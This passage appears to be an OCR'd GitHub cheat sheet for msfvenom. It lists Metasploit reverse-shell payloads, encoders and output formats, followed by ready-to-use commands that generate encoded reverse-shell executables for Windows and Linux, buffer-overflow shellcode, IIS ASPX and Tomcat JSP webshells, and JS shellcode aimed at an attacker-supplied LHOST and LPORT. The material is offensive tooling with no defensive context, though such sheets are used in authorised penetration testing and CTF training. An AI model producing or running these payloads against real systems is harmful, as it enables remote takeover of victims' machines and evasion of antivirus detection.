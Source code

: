     - `linux/x86/meterpreter/reverse_tcp`
    - `linux/x86/shell_reverse_tcp`
  - Common
    - `java/shell_reverse_tcp` Only raw
* Encoder
  - x86
    - `x86/shikata_ga_nai`
    - `x86/call4_dword_xor`
  - x64
    - `x64/xor_context`
    - `x64/xor_dynamic`
* File Type
  - Execution file
    - `exe` Windows
    - `elf` Linux 
  - Buffer overflow
    - `c` C type
    - `python` Python type
  - Webshell
    - `aspx` For IIS
    - `asp` For IIS
    - `raw` For Tomcat
  - Special
    - `js_le` For js
    - `msi` For registry
* Windows Reverse Shell Execution File
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -i 3 LHOST={IP} LPORT={PORT} -f exe -o shell.exe
```
* Linux Reverse Shell Execution File
```
msfvenom -p linux/x86/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -i 3 LHOST={IP} LPORT={PORT} -f elf -o shell
```
* Buffer Overflow Windows
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -i 3 EXITFUNC=thread LHOST={IP} LPORT={PORT} -f python
```
* Microsoft IIS Webshell
```
msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT} -f aspx -o shell.aspx
```
* Tomcat JSP Webshell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={IP} LPORT={PORT} -f raw -o shell.jsp
```
* JS Shellcode
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST={IP} LPORT={Port} CMD=/bin/bash -f js_le -e generic/none
```
